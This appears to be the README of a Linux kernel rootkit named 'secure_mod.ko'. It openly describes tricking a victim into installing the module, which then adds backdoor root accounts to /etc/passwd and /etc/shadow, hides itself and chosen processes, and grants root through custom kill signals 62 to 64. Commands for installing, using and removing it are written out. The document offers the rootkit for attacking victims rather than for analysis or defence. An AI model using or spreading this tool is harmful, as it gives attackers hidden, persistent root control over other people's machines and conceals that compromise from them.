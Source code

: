 <h1>Linux Rootkit</h1>
<h5>Attacker should first trap victim into installing the rootkit by "sudo insmod secure_mod.ko". After that, the rootkit will add a backdoor for attacker by insert a line in both /etc/passwd and /etc/shadow. Then the attacker could login to victim's linux machine and get root priviledge to do some evil things. The rootkit will also hide itself and can hide a process by its pid.</h5>

<h1>Usage</h1>

- <h3>Install</h3>
```
sudo insmod secure_mod.ko
```

- <h3>Hide/Unhide a Process</h3>
```
kill -62 pid
```

- <h3>Hide/Unhide rootkit</h3>
```
kill -63 0
```

- <h3>Get Root Priviledge</h3>
```
kill -64 0
```

- <h3>Uninstall</h3>
<h4>First unhide the rootkit by signal 63 then remove it by</h4>

```
sudo rmmod secure_mod
```
